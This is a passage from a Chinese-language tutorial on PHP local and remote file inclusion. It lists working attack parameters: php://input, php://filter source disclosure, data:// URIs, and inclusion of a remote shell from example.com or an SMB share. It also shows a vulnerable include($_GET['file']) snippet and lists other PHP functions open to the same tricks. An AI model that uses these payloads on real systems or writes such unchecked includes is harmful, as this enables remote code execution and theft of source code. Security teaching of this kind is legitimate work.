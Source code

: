 #### 利用 php 流 input:

::: tip 攻击方式

?file=php://input<br> (需要 allow_url_include=On)

:::

#### 利用 php 流 filter:

::: tip 攻击方式

?file=php://filter/convert.base64-encode/resource=index.php<br> (需要 allow_url_include=On)

:::

#### 利用 data URIs:

::: tip 攻击方式

?file=data://text/plain; base64, SSBsb3ZlIFBIUAo=<br> (需要 allow_url_include=On)

:::

#### 利用 XSS 执行任意代码:

::: tip 攻击方式

?file=<http://127.0.0.1/path/xss.php?xss=phpcode><br> (需要 allow_url_fopen=On, allow_url_include=On 并且防火墙或者白名单不允许访问外网时, 先在同站点找一个 XSS 漏洞, 包含这个页面, 就可以注入恶意代码了。条件非常极端和特殊- -)

:::

## 有限制的远程文件包含

```php
<?php include($_GET['file'] . ".htm");?>
```

::: tip 攻击方式

?file=<http://example.com/shell><br> ?file=<http://example.com/shell.txt?><br> ?file=<http://example.com/shell.txt%23><br> (需要 allow_url_fopen=On 并且 allow_url_include=On)<br> ?file=\evilshare\shell.php (只需要 allow_url_include=On)

:::

## 延伸

其实在前面也说了, 这些漏洞产生原因是 PHP 函数在引入文件时, 传入的文件名没有经过合理的校验, 从而操作了预想之外的文件。实际上我们操作文件的函数不只是 include()一个, 上面提到的一些截断的方法同样可以适用于以下函数:

- **fopen**
- **file_get_contents**
- **copy**
- **parse_ini_file**
- **readfile**
- **file_put_contents**
- **mkdir**
- **tempnam**
- **move_uploaded_file**
- **rename**
- **unlink**
- **rmdir**
- **require**
- **require_once**
- **include_once**
- **ZipArchive::open()**
